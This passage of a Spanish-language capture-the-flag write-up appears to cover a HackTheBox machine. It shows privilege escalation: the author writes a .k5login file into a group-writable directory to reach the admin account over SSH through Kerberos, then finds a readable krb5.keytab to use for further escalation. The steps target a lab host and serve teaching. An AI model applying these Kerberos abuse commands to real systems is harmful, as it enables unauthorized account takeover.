 Como pertenezco al grupo squid, puedo agregar contenido, pero no listarlo

```null
[j.nakazawa@srv01 home]$ id
uid=1000(j.nakazawa) gid=1000(j.nakazawa) groups=1000(j.nakazawa),23(squid),100(users) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

[j.nakazawa@srv01 home]$ ls -l /var/log/ | grep squid
drwx-wx---. 2 admin  squid      41 Dec 24  2020 squid
```

Como se emplea kerberos por detrás, estaría interesante tratar de agregar un archivo .k5login, ya que ahí se pueden asignar los principals (usuarios) a los que se le quiere dar acceso

Para conocer más sobre la estructura de estos archivos, haz click [aquí](https://web.mit.edu/kerberos/krb5-devel/doc/user/user_config/k5login.html)

Si me intento conectar como el usuario admin por ssh me pide contraseña, la cual desconozco y además está deshabilitada la autenticación por ese método

```null
ssh admin@10.10.10.224
admin@10.10.10.224's password: 
```

Si añado el principal de j.nakazawa al .k5login, ya no me tendré que autenticar ya que estoy arrastrando su TGT creado anteriormente

```null
[j.nakazawa@srv01 squid]$ echo 'j.nakazawa@REALCORP.HTB' > .k5login
```

Y gano acceso como admin

```null
ssh admin@10.10.10.224
Activate the web console with: systemctl enable --now cockpit.socket

Last failed login: Thu Jan 19 13:11:15 GMT 2023 from 10.10.10.224 on ssh:notty
There were 2 failed login attempts since the last successful login.
Last login: Thu Jan 19 13:11:01 2023
[admin@srv01 ~]$ 
```

Buscando por archivos cuyo grupo sea admin, aparecen ficheros de configuración de Kerberos

```null
[admin@srv01 /]$ find / -type f -group admin 2>/dev/null | grep -vE "proc|cgroup"
/home/admin/squid_logs.tar.gz.2023-01-19-131301
/home/admin/squid_logs.tar.gz.2023-01-19-131401
/usr/local/bin/log_backup.sh
/etc/krb5.keytab
```

Los archivos .keytab de Kerberos, se utilizan para autenticarse contra el KDC

En este [POC](https://web.mit.edu/kerberos/krb5-1.4/krb5-1.4.2/doc/krb5-install/The-Keytab-File.html) explican como es posible escalar privilegios en caso de que tenga capacidad de lectura y el propietario sea otro distinto de root.
